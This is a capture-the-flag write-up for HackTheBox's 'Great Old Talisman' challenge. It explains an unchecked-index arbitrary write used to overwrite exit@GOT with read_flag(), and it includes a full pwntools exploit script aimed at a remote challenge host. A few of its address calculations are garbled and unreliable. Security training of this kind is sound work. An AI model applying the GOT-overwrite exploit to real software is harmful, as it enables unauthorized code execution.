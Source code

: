 ```yaml
---
title: "Great Old Talisman Challenge Writeup: Memory Vulnerability - HackTheBox University CTF 2023: Brains & Bytes"
layout: post
author: Jorge Moreno
---
```


This challenge is part of the event [HackTheBox University CTF 2023: Brains & Bytes](../htb-bb-2023-ctf)

## Challenge Description

---

> Zombies are closing in from all directions, and our situation appears dire! Fortunately, we've come across this ancient and formidable Great Old Talisman, a source of hope and protection. However, it requires the infusion of a potent enchantment to unleash its true power.
> 

Challenge Author(s): w3th4nds \
Category: **Binary Explotation**  
Difficulty: **Very Easy**

## Challenge Solution

---

First, we check the file with ``file`` and ``checksec`` commands:

We can see it is dinamically linked 64-bit binary. With canary (stack protector) and the No eXecute bit so we can’t use shellcode to pwn this challenge.

The first thing we see after executing the vulnerable binary is the following text:

![Untitled](images/great-old-talisman/Untitled.png)

It prompts us for a number 1 or 0. After that it receives an input of 2 bytes from stdin.

Let's begin with with the decompiling.

```c
void main(void)

{
  long in_FS_OFFSET;
  int option;
  undefined8 canary;
  
  canary = *(undefined8 *)(canary + 0x28);
  setup();
  banner();
  printf(
        "\nThis Great Old Talisman will protect you from the evil powers of zombies! (...) \n>> "
        );
  __isoc99_scanf("%d",&option);
  printf("\nSpell: ");
  read(0,talis + (long)option * 8,2);
                    /* WARNING: Subroutine does not return */
  exit(0x520);
}
```

The main function reads from stdin the option and then uses it to store the 2 bytes that we send it.

```c
read(0,talis + (long)option * 8,2);
```

Reads 2 bytes and stores it in the address of ``talis + (option * 8)``. This line is vulnerable to arbitrary write, because as we can see there are not limits inside the integer that we can send to the program. So we could overwrite any address we want with an arbitrary (2 byte long) value. 

In this case we can see that there is also a function called ``read_flag()`` that prints the flag to us.

In the assembly code for ``main()`` function we can see that the next function called right after ``read()`` is ``exit()``

![Untitled](images/great-old-talisman/Untitled%201.png)

With the ``dump qword`` command from ``gdb-pwndbg`` we check the address of ``talis``.

![Untitled](images/great-old-talisman/Untitled%202.png)

And ``read_flag()`` with info fun.

![Untitled](images/great-old-talisman/Untitled%203.png)

We can check the ``exit@GOT`` function with Ghidra:

![Untitled](images/great-old-talisman/Untitled%204.png)

So we could maybe overwrite the exit function last 2 bytes with the bug we saw before.

To do this we have to calculate the offset and get a number that we can send to the program that after being multiplicated by 8 and added to **talis** is the address of **exit.**

``0x404080 - 0x4040a0 = -32``

We know that it multiplicates it by 8 so we can send -4. That way it will store the 2 bytes that we send at ``0x404080 + (-4*8) = 0x4040a0 (exit.got.plt)`` 

Now we send the last two bytes of the ``read_flag()`` function address ``\x5a\x13`` and we can grab our flag.

## Full Script

---

{% highlight python %}
#!/usr/bin/env python3
from pwn import *

exe = context.binary = ELF(args.EXE or './chall', checksec = False)

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote("94.237.48.55", 56734)
    #nc 94.237.48.55 56734
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
continue
'''.format(**locals())

exit_got = 0x404080
talis = 0x4040a0 

# Escribo \x5a\x13 en 0x404080 + (0x404080 - 0x4040a0)
# Le pasamos primero option = -0x20 = -32
# Le pasamos -4 porque el read multiplica option * 8. 
# Le pasamos los 2 bytes de la direccion y lo tira

io = start()

io.sendlineafter(b'>>', b'-4')
io.recvuntil(b':')
io.send(b'\x5a\x13')

io.interactive()
{% endhighlight %}


**FLAG - HTB{th4nk_G0T_w3_h4v3_th15_t4l15m4n}**